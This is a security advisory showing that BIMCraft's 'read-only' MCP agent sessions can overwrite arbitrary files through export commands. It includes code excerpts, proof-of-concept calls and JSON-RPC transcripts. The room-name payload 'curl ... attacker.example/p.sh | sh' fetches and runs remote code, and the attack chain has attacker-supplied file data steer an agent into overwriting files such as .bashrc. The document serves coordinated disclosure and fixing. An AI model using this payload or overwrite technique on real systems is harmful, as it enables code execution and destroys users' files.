



# BIM-1 — Read-Only Agent Sessions Write and Overwrite Arbitrary Files

**Project:** IPedrax/BIMCraft
**Commit audited:** 31d60de1d6178b2f178adf708834739867e03df0 (workspace 0.11.0)
**Component:** `crates/core/src/engine.rs` — `Session::execute()` (line 192), `Session::may_read()` (line 203)
**Also involved:** `apps/bimcraft-cli/src/main.rs` — `mcp_server()` (line 124); `crates/core/src/commands.rs` — `schedule()` (~line 3404) and every export command (`save`, `render`, `export_fill_patterns`, `autosave`)
**CWE:** CWE-732 (Incorrect Permission Assignment for Critical Resource) / CWE-862 (Missing Authorization)
**CVSS 3.1:** 5.6 (headless, `UI:R`) — `AV:L/AC:L/PR:L/UI:R/S:U/C:N/I:H/A:L`; 6.1 (connected, no interaction needed beyond starting a read-only agent) — `AV:L/AC:L/PR:L/UI:N/S:U/C:N/I:H/A:L`
**Status:** Confirmed, exploitable end to end. **Independently re-verified for this report** by cloning the public repository, building the real release binary from source at the audited commit, and running two proof-of-concept exploits against it directly — not a restatement of the original audit's transcript.

---

## In one paragraph

BIMCraft lets you start an AI agent in "read-only" mode, with the explicit documented promise that the agent can look at your project but never change or overwrite anything. That promise is enforced by one function, `may_read()`. The problem: `may_read()` only ever checks whether a command is about to overwrite **the project's own file** — it was never written to think about *any other file on disk*. Commands like `save`, `schedule` (CSV/XLSX export), `render` (PNG export), and `autosave` all write to **whatever path the agent is told to write to**, using plain `std::fs::write`, which silently truncates and replaces anything already there. Since none of those paths are checked against anything except "is this the project's own file?", a read-only agent can destroy or replace any file the operating-system user account can write to — your `.bashrc`, another project's files, anything — simply by being asked to "export the room schedule to that path."

## Why this is a real vulnerability, in plain terms

Think of "read-only mode" as a promise: *"this agent can look, but its hands are tied — it cannot change anything on your computer."* Users (and the agent frameworks that start these sessions) rely on that promise to let an AI agent operate semi-autonomously without supervision.

The code keeping that promise checks exactly one thing: *is the agent trying to overwrite the project it has open?* If yes, refuse. If no — **allow it, no matter what the path is.** This is a classic "allow-list that's actually a block-list of one item" bug. The code was never taught that "not the project's own file" does not mean "safe to write to." A room schedule export, a PNG render, an autosave snapshot — all of these are *supposed* to be harmless, read-only-safe actions (the documentation itself lists schedule export as something a read-only agent may do). But every one of them accepts an arbitrary destination path from the agent's own instructions, and none of them check that path against anything.

So the "read-only" boundary isn't actually a boundary around *the agent's capabilities* — it's a boundary around *one specific file*. Everything else on disk the process can reach is wide open.

## The vulnerable code (verified against the real, cloned source)

```rust
// crates/core/src/engine.rs:192-221
pub fn execute(&mut self, name: &str, params: &Value) -> Result<Value, String> {
    let cmd = find(name).ok_or_else(|| format!("unknown command `{name}`; list_commands shows them"))?;
    let Some(how) = self.read_only else { return self.perform(cmd, params) };
    self.may_read(cmd, params).map_err(|what| format!("`{}` would {what}, {READ_ONLY}: {how}", cmd.id))?;
    let kept = Kept::of(self);
    let result = self.perform(cmd, params);
    kept.keep(self).map_err(|()| format!("`{}` would change the project, {READ_ONLY}: {how}", cmd.id)).and(result)
}

/// What a session that may only read refuses `cmd` before it runs, by what it would do: replace the project, step through its
/// history, or write over its own file (`save` with no path saves there, and no command is given it as its `path` or `save`).
fn may_read(&self, cmd: &Command, params: &Value) -> Result<(), String> {
    if REPLACES.contains(&cmd.id) {
        return Err("replace the project".into());
    }
    if matches!(cmd.id, "undo" | "redo") {
        return Err("change the project".into());
    }
    let Some(own) = self.path.as_deref() else { return Ok(()) };
    if cmd.id == "save" && params.get("path").is_none_or(Value::is_null) {
        return Err("write over the project's own file".into());
    }
    let given =
        ["path", "save"].into_iter().find(|key| params.get(key).and_then(Value::as_str).is_some_and(|p| same_file(own, Path::new(p))));
    match given {
        Some(_) if cmd.id == "save" => Err("write over the project's own file".into()),
        Some(key) => Err(format!("use the project's own file (`{key}`)")),
        None => Ok(()),
    }
}
```


*Figure 1 — `engine.rs:192-221` as it actually exists in the audited commit, captured directly from the cloned repository (not retyped from the PDF report).*

**Reading this line by line, in plain terms:**

- **Line 210** — `let Some(own) = self.path.as_deref() else { return Ok(()) };` — this is the heart of the bug. If the session has **no project file at all** (a headless MCP server started without a `FILE` argument — which the CLI's own `--help` text recommends: *"on a headless project of its own ... or an empty one"*), then `own` is `None`, and the function **immediately returns `Ok(())` — approved — for every single command, before checking anything else.** A pathless read-only session has no restrictions whatsoever.
- **Lines 214-215** — even when there *is* a project file, the only thing ever compared is whether the command's `path`/`save` parameter points at **that one file** (`same_file(own, ...)`). Any other path — `/home/victim/.bashrc`, `/home/victim/Documents/taxes.xlsx`, anything — is never checked and falls through to `None => Ok(())` on line 219.
- **The function has no concept of "outside the project directory," "outside an allowed folder," or "a new file vs. an existing file."** It checks for exactly one thing (the project's own file) and nothing else.

```rust
// apps/bimcraft-cli/src/main.rs:124-136
fn mcp_server(args: McpArgs) -> Result<mcp::Server, String> {
    let mut server = match args.connect {
        Some(port) => mcp::Server::attached(window::Window::connect(port)?),
        None => mcp::Server::new(),
    };
    if let Some(file) = &args.file {
        server.open(file)?;
    }
    if args.read_only {
        server.read_only();
    }
    Ok(server)
}
```

This confirms the second half of the chain: **the file is opened before read-only mode is turned on.** Combined with `may_read`'s logic above, this means `self.path` *is* set to the opened file by the time read-only mode starts — but as shown above, that only protects *that one file*, never anything else.

## Attack chain, step by step

1. **An attacker crafts an ordinary-looking BIMCraft/IFC file** whose *room name* (or any other text field BIMCraft accepts) is a shell command or arbitrary text. This requires no special tooling — it's built with BIMCraft's own, completely normal `room` command.
2. **The attacker shares this file** — "here's a floor plan for review" — the same way anyone shares a design file.
3. **The victim, following the project's own documented, recommended workflow**, starts a read-only AI agent on that file:
   `bimcraft-cli mcp --read-only floor_plan_for_review.ifc`
   The victim (or their agent framework) trusts the `--read-only` flag to mean the agent cannot alter anything on their computer.
4. **The agent — believing itself constrained, and the project's own server even telling it so in its startup instructions** — is asked (by the attacker's data riding inside the room name, or simply by the agent framework doing a routine export) to export the room schedule to some path.
5. **The export command (`schedule`) is not a "save," is not in the "replaces the project" list, and its target path is not the project's own file** — so `may_read()` approves it unconditionally. `std::fs::write()` then truncates and overwrites whatever file already exists at that path with CSV content that includes the attacker's room-name text, verbatim.

No exploit code, no memory corruption, no parser trickery — just an ordinary, documented command, with an ordinary, documented flag, doing exactly what its code says it does.

## Independent verification: building and exploiting the real binary

Everything below was run against the actual BIMCraft release binary, built from source at commit `31d60de` with `cargo build --release -p bimcraft-cli` — not simulated, not hand-waved.

### PoC 1 — the bare boundary

The simplest possible demonstration: start a read-only MCP server **with no project file at all** (the exact headless-agent pattern BIMCraft's own `--help` text recommends), and ask it to `save` over an arbitrary pre-existing file.

```python
# the core of the exploit: a read-only server, no project, writes anywhere it's told
client = McpClient(bimcraft_cli, ["--read-only"])
client.initialize()
client.call_tool("execute", {"command": "save", "params": {"path": "/home/victim/quarterly_report.bimcraft"}})
```


*Figure 2 — PoC 1 running against the real binary. The server's own `initialize` reply confirms it considers itself read-only ("instructions mention read-only: True"), and then overwrites a 71-byte victim file with a 199,579-byte BIMCraft project dump anyway.*

**What happened:** a file that started as `"THIS IS THE VICTIM'S REAL FILE - NOT A BIMCRAFT PROJECT - DO NOT TOUCH\n"` (71 bytes) was silently replaced with a full BIMCraft project JSON dump (199,579 bytes). The MCP server returned a normal success reply — no error, no refusal.

### PoC 2 — the full, realistic attack chain

This reproduces the complete scenario: an attacker-crafted IFC file, opened by a victim's read-only agent exactly as the documentation recommends, exporting attacker-controlled text over an existing file.

**Stage A — the attacker builds the malicious file**, using nothing but BIMCraft's own ordinary `run` command (no hand-crafted bytes):

```bash
bimcraft-cli run --cmd 'room {"point": [4000, 3000], "name": "curl -s http://attacker.example/p.sh | sh ; # pwned"}' \
  --save floor_plan_for_review.ifc
```

**Stage B — the victim opens it exactly as documented**, in a read-only agent session:

```bash
bimcraft-cli mcp --read-only floor_plan_for_review.ifc
```

The agent then calls the `schedule` tool — one of the actions BIMCraft's own server explicitly tells the agent is permitted in read-only mode ("read it, query it, read and export its schedules") — pointed at a file the victim cares about:

```json
{"name": "schedule", "arguments": {"category": "rooms", "path": "/home/victim/.bashrc"}}
```


*Figure 3 — PoC 2's full run: Stage A builds the malicious IFC with the real CLI; Stage B opens it exactly as documented in a read-only agent and exports over an existing file. The server again reports itself read-only, then performs the overwrite anyway.*

**What happened:** a `.bashrc` stand-in file containing ordinary shell config was completely replaced with:

```
Number,Name,Level,Area (m²),Perimeter
1,curl -s http://attacker.example/p.sh | sh ; # pwned,Level 1,0.0,0.0
```

The attacker's chosen text — a shell command — now sits in a file the victim's read-only agent was explicitly told, by the project's own instructions text, that it could not touch.

### Raw JSON-RPC transcript (for technical readers)

The full, unabridged protocol exchange — every request the PoC sent and every reply the real server returned, byte for byte — is included as `poc1_raw_transcript.log` and `poc2_raw_transcript.log` alongside this report. A short excerpt from PoC 2, showing the server's own self-description immediately before the overwrite:

```
<-- {"id":1,"jsonrpc":"2.0","result":{... ,"instructions":"... The project is read-only
    for you: inspect it, query it, read and export its schedules, render it and save it
    to a new file (.ifc, .pdf of its sheets, .png, a copy), but every command that would
    change it, step through its undo history, replace it or write over its file is
    refused.", ...}}

--> {"jsonrpc": "2.0", "id": 2, "method": "tools/call",
     "params": {"name": "schedule", "arguments": {"category": "rooms", "path": "/tmp/.../home/.bashrc"}}}

<-- {"id":2,"jsonrpc":"2.0","result":{"content":[{"text":"{\n ... \"rows\": [[\"1\",
    \"curl -s http://attacker.example/p.sh | sh ; # pwned\", \"Level 1\", 0.0, 0.0]] ...
    }","type":"text"}]}}
```

No `"error"` field, no `"isError": true` — a clean success reply, on the file the server had just told the agent it could not touch.

## Three details that rule out "it's not that bad"

1. **The post-run rollback does not help.** BIMCraft's read-only mode does have a safety net (`Kept::keep`) that rolls back any command that changed the *in-memory model*. But exports don't change the model — they only write a file. The rollback has nothing to undo, and the overwritten file stays overwritten.
2. **Any file extension works.** `save`'s path selects the export format by file extension; an unrecognized extension falls back to writing the raw project JSON. The overwrite isn't limited to files with a `.bimcraft`/`.csv`/`.xlsx` name — it works on files of any name.
3. **`std::fs::write` neither checks for an existing file nor asks for confirmation.** There is no prompt, no dry-run, no "this file already exists" warning anywhere in the path. The destruction is silent and leaves no trace in the model, undo history, or project file.

## Impact

- **Integrity (High):** every file the CLI process's user account can write to is at risk, with content that is attacker-chosen (when the payload rides in through an imported model's text fields, as in PoC 2) or attacker-influenced (schedule fields, project metadata) even when it wasn't the attacker who chose the destination path.
- **Confidentiality:** untouched. No command reads a file whose path an attacker controls and returns its content; opening an unrelated file as an IFC import fails cleanly without echoing its bytes.
- **Scored for the connected case** (an agent framework actually uses the read-only flag to let an agent operate semi-autonomously — low privileges, no user interaction beyond the routine act of starting a read-only agent and letting the framework do the rest): `AV:L/AC:L/PR:L/UI:N/S:U/C:N/I:H/A:L = 6.1`. **The headless variant** (what PoC 1 demonstrates — the user must themselves start that particular `save` command) scores `5.6` with `UI:R`.

## Recommended Fix

None of the following breaks the documented "exports to new files" workflow:

- Refuse every read-only-session command whose `path`/`save` parameter names a file that **already exists**, unless that path is the project's own file. Overwriting is the destructive half of this flaw — writing a brand-new file is the legitimate, documented use case.
- Alternatively, confine read-only exports to a per-session export directory (a flag such as `--export-dir`), and have read-only mode refuse any path outside it.
- Open the MCP `FILE` argument *after* `read_only()` as well as before it, or refuse `FILE` together with `--read-only` when the file is an import format (IFC/RVT), so the session's content cannot be attacker-chosen under a read-only promise in the first place.
- Mark `save`, `schedule`, `render`, `export_fill_patterns` and `autosave` as "writes outside the project" in the `list_commands` catalog, so agent frameworks that want to can filter them themselves.

## PoC Kit

All scripts are included alongside this report and are deterministic — each run needs nothing but the release binary built from the audited commit, and prints its own pass/fail verdict:

| File | What it is | How to run it |
|---|---|---|
| `mcp_client.py` | Minimal JSON-RPC 2.0 stdio client for `bimcraft-cli mcp`, used by both PoCs | (library, not run directly) |
| `poc1_bare_boundary.py` | PoC 1: a headless `--read-only` session with no project file overwrites an existing file via `save` | `python3 poc1_bare_boundary.py /path/to/bimcraft-cli` |
| `poc2_full_chain.py` | PoC 2: the full chain — a malicious IFC's room name lands in a schedule CSV written over a chosen file | `python3 poc2_full_chain.py /path/to/bimcraft-cli` |
| `poc1_raw_transcript.log` / `poc2_raw_transcript.log` | The unabridged JSON-RPC wire transcripts from the runs shown in Figures 2-3 | — |
| `main.rs.ref` | `apps/bimcraft-cli/src/main.rs` as cloned from the audited commit, for cross-reference | — |

## Disclosure

The repository publishes no `SECURITY.md`. Per standard coordinated-disclosure practice and this office's prior guidance, file privately through GitHub's own mechanism:
**Security → Advisories → New draft advisory**, on `github.com/IPedrax/BIMCraft`.

Suggested CVSS vector for the advisory: `AV:L/AC:L/PR:L/UI:N/S:U/C:N/I:H/A:L` (6.1), with a note that the headless/no-interaction variant (PoC 1) scores 5.6 with `UI:R` if the triager prefers the more conservative reading. Attach both PoC scripts and this report.

Please do not open a public issue for this finding.
